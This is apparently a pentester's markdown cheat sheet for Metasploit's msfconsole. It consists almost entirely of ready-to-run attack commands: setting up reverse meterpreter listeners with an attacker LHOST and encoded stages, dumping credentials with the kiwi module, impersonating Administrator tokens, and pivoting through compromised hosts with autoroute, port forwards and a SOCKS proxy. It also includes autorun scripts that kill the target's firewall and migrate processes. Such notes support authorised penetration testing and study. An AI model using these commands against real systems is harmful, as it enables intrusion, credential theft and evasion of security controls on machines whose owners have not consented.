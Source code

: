 # MSFConsole
#### Start metasploit
- The correct way

```
systemctl start postgresql
sudo msfdb init #only the first time!
sudo msfconsole
```

#### Start listener
```
use multi/handler
set payload windows/meterpreter/reverse_tcp
```

#### Background the sessions
```
Background
```

#### List sessions
```
sessions
```

#### Kill session
```
sessions -k <id>
```

#### Enter sessions
```
sessions -i <id>
```

#### Load kiwi module to dump creds and print help for kiwi
```
load kiwi
help kiwi
```

#### Load PowerShell and drop into shell
```
load powershell
powershell_shell
```

#### Metasploit imperssonate
```
Load incognito
list_tokens -g
impersonate_token "BUILTIN\Administrators"
```

#### Upgrade shell to meterpreter
```
use multi/manage/shell_to_meterpreter
set SESSION
set LHOST
set LPORT
run
```

## Routing
#### Set route
```
route add <subnet / host ip> <subnetmask> <session id>
```

#### Autoroute modulle
```
use multi/manage/autoroute
```

#### Run autoroute
```
run autoroute -s 10.100.11.0/24
```

#### Create port forward
```
Portfwd add -l <LOCAL PORT> -p <REMOTE PORT> -r <REMOTE HOST>
```

#### After setting routes use bind shells

#### Proxychains
```
use server/socks_proxy
set SRVHOST 127.0.0.1
set SRVPORT 9000
set VERSION 4a
```

## Autorun script
### Set solo module as autorunscript
```
set AutoRunScript windows/gather/enum_logged_on_users
set AutoRunScript post/windows/manage/migrate
```

#### Create a .rc file and use it like:
```
run post/windows/manage/migrate
run post/windows/manage/killfw
run post/windows/gather/checkvm
```

```
set AutoRunScript multi_console_command -rc /root/autoruncommands.rc
```

## Metasploit automation run automatic script
#### Create a .rc file
```
set PAYLOAD windows/meterpreter/reverse_https
set LHOST 10.11.0.4
set LPORT 443
set EnableStageEncoding true
set StageEncoder x86/shikata_ga_nai
set AutoRunScript post/windows/manage/migrate
set ExitOnSession false
exploit -j -z
```

#### Start metasploit with .rc file
```
sudo msfconsole -r setup.rc
```
